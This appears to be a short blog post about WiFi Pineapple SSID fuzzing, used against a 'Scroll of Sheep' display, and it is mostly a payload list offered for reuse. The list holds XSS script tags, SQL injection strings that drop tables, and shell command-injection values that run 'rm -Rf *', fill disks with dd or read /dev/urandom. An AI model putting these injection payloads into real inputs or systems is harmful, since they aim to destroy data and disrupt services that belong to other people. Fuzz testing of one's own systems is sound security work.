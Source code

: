 ```yaml
---
layout: post
title:  "Adventures with WifiPineapple Fuzzing SSID"
subtitle: "Wifi SSID White Noise, fuzzing the SSID"
categories: wifi hacking
published: true
comments: true
tags:
 - Wifi
 - Hacking
 - WifiPineapple
---
```


As mentioned we used a fuzz list for the SSID to try and break the Scroll of Sheep. For others to use it has been included below. This will mess with the data, and handling the data at any future point, would need to be handled carefully.

{% highlight linenos %}
"><script>alert(1);//
"><script>alert(1)</script>
'; DROP TABLE *-- 
'); DROP TABLE *-- 
' AND DROP TABLE *-- 
') AND DROP TABLE *-- 
'; DROP TABLE *#
'); DROP TABLE *# 
' AND DROP TABLE *#
') AND DROP TABLE *#
;rm -Rf *;
`rm -Rf *`
$(rm -Rf *)
;cat /dev/urandom;
`cat /dev/urandom`
;dd if=/dev/zero of=rick.dat;
`dd if=/dev/zero of=rick.dat`
{% endhighlight %}
